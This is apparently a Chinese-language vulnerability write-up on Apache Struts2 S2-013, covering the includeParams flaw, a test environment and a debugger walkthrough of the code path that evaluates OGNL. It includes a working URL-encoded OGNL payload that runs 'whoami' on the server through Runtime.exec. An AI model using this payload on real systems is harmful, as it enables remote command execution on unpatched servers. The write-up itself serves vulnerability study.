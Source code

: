 # S2-013 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.1`

Problem: `Struts2` 标签中 ` <s:a> ` 和 ` <s:url> ` 都包含一个 `includeParams` 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

` <s:a> `用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行`OGNL`渲染，造成任意命令执行漏洞。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 9.0.34

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![20200718101337](img/20200718101337.png)

## Payload

`HelloWorld.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

## Debug

全局搜索`includeParams`关键字，发现有个`getIncludeParams`方法，先下个断点：

`s2-013/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/components/ComponentUrlProvider.class:73`

![getIncludeParams](img/getIncludeParams.png)

然后进入到`beforeRenderUrl`函数中。可以看到这个函数将我们提交的恶意参数include进来：

![includeParams](img/includeParams.png)

接下来找哪里将表达式进行了解析。

继续跟进，进入`end`函数：

![end](img\end.png)

跟进`renderUrl` -> `determineActionURL` -> `buildURL` -> `buildParametersString` -> `translateAndEncode`:

![1595138319483](img/renderUrl.png)

![1595136376298](img/buildUrl.png)

![1595136451346](img/buildParametersString.png)

![1595136519253](img/translateAndEncode.png)

一直跟进translate函数，直到TextParseUtil类的translateVariables方法中，通过stack.findValue方法触发OGNL表达式执行。

`s2-013/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/util/TextParseUtil.class:90`

![1595136693874](img/stackFindValue.png)



## Reference

- [S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)
- [S2-013/S2-014 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md )

